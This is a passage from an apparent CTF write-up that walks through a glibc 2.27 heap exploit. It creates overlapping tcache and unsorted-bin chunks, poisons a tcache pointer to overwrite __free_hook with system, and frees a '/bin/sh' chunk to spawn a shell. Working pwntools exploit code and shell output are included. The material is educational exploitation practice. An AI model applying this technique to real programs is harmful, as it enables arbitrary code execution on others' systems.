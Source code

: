 ![Set prev-size](set_prevsize.png)
_Prev-size field is now 0x50_


Now we can free the large chunk to make it consolidate backwards with our fake chunk, giving us an even larger chunk in the unsorted bin. However, we also want to free the *c* chunk (our small chunk) before we free the large chunk, because then this chunk will exist in **both** the unsorted bin (overlapped by the larger chunk) and the tcache (the advantage of this will be revealed shortly)!

```python
free(c) # Let c be in both tcache and overlapped in unsortedbins
free(d) # Consolidate backwards with fake chunk into unsortedbins
```
{: .nolineno }

![Bins after consolidation](bins.png)
_Current state of the bins_


The consolidated chunk have a size of 0x550, which we will allocate again. The reason we do this is because we now have the memory area of the *c* chunk (the small chunk before the large chunk earlier) both in the tcache and within our newly allocated 0x550 chunk.

Since the *c* chunk is both inside this 0x550 chunk and the tcache, we can overwrite the next pointer of the *c* chunk to point to `__free_hook`. We can then allocate a minimum sized chunk, which will give us the address of the *c* chunk, and if we allocate a chunk of the same size again, we will get the address of `__free_hook` returned by malloc! This means that the next time `free` is called, we can make the program call `system` instead, because we can overwrite `__free_hook` with the address of `system`.

But only calling `system()` does not help us in any way, we want to call `system("/bin/sh")`. Luckily, if we have a heap chunk which contains the string `"/bin/sh"` we can just free that one to call `system("/bin/sh")` (because the argument to system is a pointer to the string, and not the actual string itself).

```python
# Allocate the consolidated chunk which overlaps with the tcache chunk "c"
create(0x548, b"A"*0x28 + pack(0x21) + pack(libc.sym.__free_hook))

# Allocate a chunk containing "/bin/sh", so that we can free it later to get a shell
binsh = create(0x10, b"/bin/sh\x00")

# Overwrite __free_hook with system
create(0x10, pack(libc.sym.system))

# Call free on the chunk containing "/bin/sh", which because of our overwrite will call system("/bin/sh")
free(binsh)

# Enjoy the shell!
io.interactive()
```
{: .nolineno }

```console
root@ba2b05692079:/home/ctf# python3 exploit.py
[+] Starting local process '/home/ctf/chall': pid 20
[+] Libc base @ 0x7f75fb415000
[+] Heap base @ 0x55a3d7e79000
[*] Switching to interactive mode
$ ls
Dockerfile  chall  exploit.py ld-2.27.so  libc-2.27.so  libc.so.6
```
